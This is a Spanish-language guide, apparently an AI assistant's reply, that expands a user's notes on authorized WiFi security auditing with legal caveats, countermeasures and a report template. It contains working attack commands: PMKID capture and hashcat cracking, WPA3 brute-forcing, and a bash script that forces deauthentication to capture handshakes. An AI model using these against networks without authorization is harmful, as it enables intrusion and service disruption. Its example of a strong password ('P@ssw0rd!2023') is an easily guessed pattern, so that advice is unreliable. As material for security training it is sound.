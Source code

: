 
> ### **Mejoras y Ampliaciones para tu Guía**  
> 
> #### **1. Consideraciones Legales y Éticas (¡CRUCIAL!)**  
> - **Marco Legal:**  
>   - En España: Artículo 197 del Código Penal (delito de descubrimiento y revelación de secretos).  
>   - En México: Ley Federal de Delitos Informáticos (artículo 211 bis).  
>   - Siempre incluye una cláusula: *"Esta prueba se realizó con autorización escrita del propietario de la red. El uso no autorizado constituye delito."*  
> 
> - **Checklist de Autorización:**  
>   - ✅ Permiso por escrito con fecha y alcance.  
>   - ✅ Delimitación de objetivos (ej: solo probar WPA2, no afectar servicios).  
>   - ✅ Horario acordado (evitar horas pico en empresas).  
> 
> #### **2. Técnicas Avanzadas (Para Auditorías Profesionales)**  
> ##### **A. Ataques a PMKID (Más Eficiente que Handshake)**  
> **Herramienta:** `hcxtools` + `hashcat`  
> ```bash
> # Capturar PMKID (no necesita clientes conectados)
> sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1
> 
> # Convertir a formato hashcat
> hcxpcapngtool -o hash.hc22000 dump.pcapng
> 
> # Crackear
> hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
> ```
> **Ventaja:** Funciona incluso si no hay clientes conectados.  
> 
> ##### **B. Ataque a WPA3 (SAE - Simultaneous Authentication of Equals)**  
> **Herramienta:** `wpa3-sae-bruteforce` (experimental)  
> ```bash
> # Requiere tarjeta compatible con modo monitor y SAE
> sudo wpa3-sae-bruteforce -i wlan0mon -b <BSSID> -w diccionario.txt
> ```
> **Nota:** WPA3 es robusto, pero implementaciones débiles (contraseñas cortas) son vulnerables.  
> 
> ##### **C. Análisis de Tráfico con Wireshark**  
> ```bash
> # Capturar paquetes en tiempo real
> sudo wireshark -i wlan0mon -k -f "wlan addr <BSSID>"
> ```
> **Filtros útiles:**  
> - `eapol` (para handshakes).  
> - `wps` (para ataques WPS).  
> 
> #### **3. Automatización con Scripts (Ahorra Tiempo)**  
> ##### **Script para Automatizar Captura de Handshake:**  
> ```bash
> #!/bin/bash
> # auto-handshake.sh
> 
> if [ "$EUID" -ne 0 ]; then 
>     echo "Ejecuta como root: sudo $0"
>     exit 1
> fi
> 
> echo "Poniendo interfaz en modo monitor..."
> airmon-ng start wlan0 > /dev/null
> 
> echo "Escaneando redes... (Ctrl+C para salir)"
> airodump-ng wlan0mon
> 
> read -p "BSSID objetivo: " BSSID
> read -p "Canal: " CANAL
> 
> echo "Iniciando captura..."
> airodump-ng --bssid $BSSID -c $CANAL -w captura wlan0mon &
> 
> read -p "Presiona Enter para forzar reconexión..."
> aireplay-ng --deauth 10 -a $BSSID wlan0mon
> 
> echo "Esperando handshake... (Ctrl+C para terminar)"
> wait
> ```
> **Uso:** `sudo chmod +x auto-handshake.sh && sudo ./auto-handshake.sh`  
> 
> #### **4. Contramedidas (Cómo Proteger Redes)**  
> Incluye esto en tu informe final para demostrar valor:  
> 
> | **Vulnerabilidad** | **Solución**                                                                 |
> |---------------------|-----------------------------------------------------------------------------|
> | WPS activado        | Deshabilitar WPS en el router.                                              |
> | Contraseña débil    | Usar +12 caracteres con mayúsculas, números y símbolos (ej: `P@ssw0rd!2023`). |
> | WPA2/WPA3           | Actualizar firmware del router y usar WPA3-SAE.                            |
> | Evil Twin           | Habilitar "Protected Management Frames" (PMF) en el router.                |
> 
> #### **5. Herramientas Alternativas (Multiplataforma)**  
> - **Windows:**  
>   - `Acrylic WiFi` (análisis de redes).  
>   - `CommView for WiFi` (captura de paquetes).  
> - **Android:**  
>   - `WIBR+` (ataques de diccionario).  
>   - `NetHunter` (entorno Kali para móvil).  
> 
> #### **6. Casos de Uso Reales (Ejemplos Prácticos)**  
> - **Empresa:**  
>   *"Auditoría a red corporativa: Se detectó WPS activado en 3 routers. Se recomendó desactivarlo y se implementó WPA3. Se redujo el riesgo de acceso no autorizado en 90%."*  
> - **Hogar:**  
>   *"Red doméstica con contraseña '12345678'. Se demostró cómo crackearla en 2 minutos. Se cambió a una contraseña robusta y se deshabilitó WPS."*  
> 
> #### **7. Errores Comunes (¡Evítalos!)**  
> - ❌ Usar `airodump-ng` sin filtrar canal/BSSID (sobrecarga de datos).  
> - ❌ Olvidar detener `airmon-ng` después de la prueba (`sudo airmon-ng stop wlan0mon`).  
> - ❌ No verificar la compatibilidad de la tarjeta con modo monitor (usa `iw list`).  
> 
> ### **Plantilla para Informe de Auditoría**  
> ```markdown
> # Informe de Auditoría WiFi - [Fecha]  
> **Objetivo:** Evaluar seguridad de la red [Nombre_Red].  
> **Alcance:** Pruebas de penetración no intrusivas con autorización.  
> 
> ## Hallazgos Críticos  
> 1. **Vulnerabilidad:** WPS activado.  
>    - **Riesgo:** Alto (acceso en minutos con Reaver).  
>    - **Recomendación:** Deshabilitar WPS.  
> 
> 2. **Vulnerabilidad:** Contraseña WPA2 débil.  
>    - **Riesgo:** Medio (crackeada en 4 horas con diccionario).  
>    - **Recomendación:** Cambiar a contraseña robusta.  
> 
> ## Conclusión  
> La red presenta vulnerabilidades críticas. Implementar las contramedidas recomendadas reduce el riesgo a niveles aceptables.  
> 
> **Firma del Auditor:**  
> [Nombre]  
> [Certificaciones: CEH, OSCP, etc.]
> ```
> 
> ### **Recursos Adicionales**  
> - **Cursos:**  
>   - [Practical Ethical Hacking - TCM Security](https://tcm-security.com/practical-ethical-hacking-the-complete-course/)  
>   - [Wireless Attacks - eLearnSecurity](https://elearnsecurity.com/course/wireless_attacks)  
> - **Comunidad:**  
>   - Foro [HackTheBox](https://forum.hackthebox.com/) (retos WiFi).  
>   - Reddit [r/netsec](https://www.reddit.com/r/netsec/) (discusiones técnicas).  
> 
> ¡Con esto tus apuntes serán de nivel profesional! Si necesitas profundizar en algún área (ej: ataques a IoT en redes WiFi, análisis de firmware de routers), ¡avísame! 🚀
